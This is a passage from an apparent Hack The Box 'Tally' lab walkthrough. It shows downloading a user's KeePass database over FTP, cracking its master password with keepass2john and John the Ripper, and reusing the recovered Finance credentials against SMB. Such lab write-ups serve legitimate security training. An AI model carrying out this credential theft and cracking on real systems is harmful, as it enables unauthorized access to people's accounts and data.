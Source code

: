 Going into the `User` directory we discover even more users. 

![users.png](../assets/tally_assets/users.png)

Browsing through the Users files we find Keepass materials in Tim's directory.

```text
125 Data connection already open; Transfer starting.
09-15-17  08:58PM                   17 bonus.txt
09-15-17  09:24PM       <DIR>          KeePass-2.36
09-15-17  09:22PM                 2222 tim.kdbx
```

We can bring this back to our attacking machine using the `get` command.

Once the tim.kdbx file is back on our machine, we can use keepass2john and JohntheRipper to crack the password:

```text
┌──(ryan㉿kali)-[~/HTB/Tally]
└─$ keepass2john tim.kdbx > kee_hash.txt
```
and John can crack the password as simplementeyo.

We can now login to the keepass DB and grab some more credentials:

```text
┌──(ryan㉿kali)-[~/HTB/Tally]
└─$ kpcli --kdb=tim.kdbx
```

Finance:Acc0unting

Lets use these creds to access SMB and see what else we can find. 

![smb.png](../assets/tally_assets/smb.png)
